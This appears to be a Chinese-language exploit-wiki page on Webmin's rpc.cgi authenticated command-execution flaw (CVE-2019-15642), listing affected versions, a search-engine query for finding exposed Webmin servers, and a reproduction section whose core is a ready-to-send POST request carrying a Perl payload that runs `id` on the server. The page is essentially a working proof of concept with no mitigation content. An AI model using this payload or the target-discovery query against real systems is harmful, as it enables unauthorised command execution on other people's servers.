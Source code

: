 # Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。
 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

<a-checkbox checked>Webmin < 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827185020021.png)

登录后发送请求包

```php
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![img](/assets/PeiQi-Wiki/img/1661594728166-0b339795-35a4-48c7-9158-5e1f4ac9ca6e.png)